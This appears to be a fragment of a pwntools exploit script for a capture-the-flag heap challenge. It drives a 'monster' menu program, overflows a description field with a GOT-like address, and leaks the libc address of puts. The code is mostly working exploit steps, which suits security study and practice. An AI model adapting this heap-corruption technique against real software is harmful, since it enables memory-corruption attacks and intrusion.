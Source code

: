 ```python
io.sendline('24')

io.recvuntil('Add a description: ')
io.sendline(cyclic(24))

# add monster 1

io.recvuntil('>> ')
io.sendline('1')

io.recvuntil('index: ')
io.sendline('1')

for j in range(4):
    io.recvuntil('value: ')
    io.sendline('1337')

io.recvuntil('description? (Y/N): ')
io.sendline('Y')

io.recvuntil('Size: ')
io.sendline('24')

io.recvuntil('Add a description: ')
io.sendline(b'1' * 16 + p64(0x404020))

# del monster 1

io.recvuntil('>> ')
io.sendline('3')

io.recvuntil('index: ')
io.sendline('1')

# add monster 0

for i in range(2):
    io.recvuntil('>> ')
    io.sendline('1')

    io.recvuntil('index: ')
    io.sendline('0')

    for j in range(4):
        io.recvuntil('value: ')
        io.sendline('1337')

    io.recvuntil('description? (Y/N): ')
    io.sendline('N')

# check description

io.recvuntil('>> ')
io.sendline('4')

io.recvuntil('index: ')
io.sendline('0')

io.recvuntil('Description: ')
leak = u64(io.recvline()[:-1].ljust(8, b'\x00'))

print('puts leak:', hex(leak))

```
